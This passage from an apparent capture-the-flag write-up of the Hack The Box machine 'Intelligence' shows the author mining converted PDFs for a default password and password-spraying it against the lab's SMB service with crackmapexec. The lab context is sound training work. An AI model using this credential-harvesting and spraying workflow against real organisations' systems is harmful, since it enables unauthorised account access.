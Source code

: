 I have to convert the pdf files into txt file to make the content readable so for that I user a tool called `pdftotext` Tool. That will convert the pdf files into text files like this →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Intelligence]
└─$ for i in $(ls *.pdf);do pdftotext $i;done
```
{: .nolineno}

I got all the pdf files into .txt files →

![Untitled](Intelligence%205c9413713b15427eaed2a111cea99e6f/Untitled%202.png)

Now lets search for password and I got something also →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Intelligence]
└─$ grep -R password -A5 -B5
2020-06-04-upload.txt-New Account Guide
2020-06-04-upload.txt-Welcome to Intelligence Corp!
2020-06-04-upload.txt:Please login using your username and the default password of:
2020-06-04-upload.txt-NewIntelligenceCorpUser9876
2020-06-04-upload.txt:After logging in please change your password as soon as possible.
2020-06-04-upload.txt-
2020-06-04-upload.txt-
```
{: .nolineno}

I got this password from file `2020-06-04-upload.txt` .

```bash
NewIntelligenceCorpUser9876
```
{: .nolineno}

So I have some users and a password so lets brute force a service lets see if any user matches this →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Intelligence]
└─$ crackmapexec smb 10.10.10.248 -u username.txt -p 'NewIntelligenceCorpUser9876' --shares
SMB         10.10.10.248    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Mozilla:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Scott.Scott:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
```
{: .nolineno}
